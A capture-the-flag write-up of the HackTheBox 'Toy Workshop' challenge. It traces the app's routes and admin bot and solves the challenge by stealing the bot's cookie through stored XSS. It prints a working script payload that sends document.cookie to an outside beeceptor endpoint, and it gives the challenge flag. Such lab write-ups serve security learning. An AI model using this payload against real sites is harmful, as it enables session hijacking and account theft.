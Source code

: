 # Toy Workshop (Day 1)

For this challenge, we are provided with source code for a web application as well as a docker file to test the web application locally.

I proceed to build the docker image and navigating to the website, where I was greeted with the following page:

![webpage](https://user-images.githubusercontent.com/71312079/151320134-1d568e80-3ef7-4a3d-9836-913ae953398e.png)

Clicking on one of the elves produces a prompt that **"The manager is busy right now"** and a textbox for input. Immediately I think of the possibility of XSS and send the following input:

![testxss](https://user-images.githubusercontent.com/71312079/151320121-3120681a-b100-4e97-a271-f5fed899fba3.png)

I see that my message was successfully delivered then refreshed the page. However I did not receive the alert, leading me to think that perhaps XSS isn't the way to go...

Next, I viewed the source code, zooming in to the *routes.js* file which shows the routes of the app. I see that sending the message in the text box will invoke a function *readQueries* performed by a bot:

![submit](https://user-images.githubusercontent.com/71312079/151320106-7ff80377-1d5e-40a9-a809-ab9a82178d0a.png)

I then navigate to the *readQueries* function located in */challenge/bot.js*, where I see the admin visiting */queries* to read the queries. Interestingly, I see that the flag is actually the cookie name, thus it appears that the cookie needs to be stolen in order to obtain the flag.

![botjs_readqueries](https://user-images.githubusercontent.com/71312079/151321533-a30fc3c9-8418-48c7-acba-5f7439ac2aba.png)

Navigating back to *routes.js* to see the GET request for */queries*, I see that only the localhost on 127.0.0.1 can access the cookie,. 

![get](https://user-images.githubusercontent.com/71312079/151320096-43c4d547-3f1d-47b7-a1fa-84c9be1f451b.png)

In order to obtain the cookie, we need to perform the following:

* Set up a publicly accessible website 
  
  * I created an endpoint called **test234** on **beeceptor**

* Craft a script to send the cookie to my endpoint
  
  ```html
  <script> document.write('<img src="https://test234.free.beeceptor.com/collect.gif?cookie=' + document.cookie + '" />') </script>
  ```

* Paste the script in the text box and submit it

After performing the steps above, I waited around a minute for the admin to view the queries. Voila! The cookie was sent to my endpoint and I obtained the flag:

![beeceptor](https://user-images.githubusercontent.com/71312079/151480111-781487a7-df2f-4796-b9b9-9acf398710c4.png)

Flag: `HTB{3v1l_3lv3s_4r3_r1s1ng_up!}`
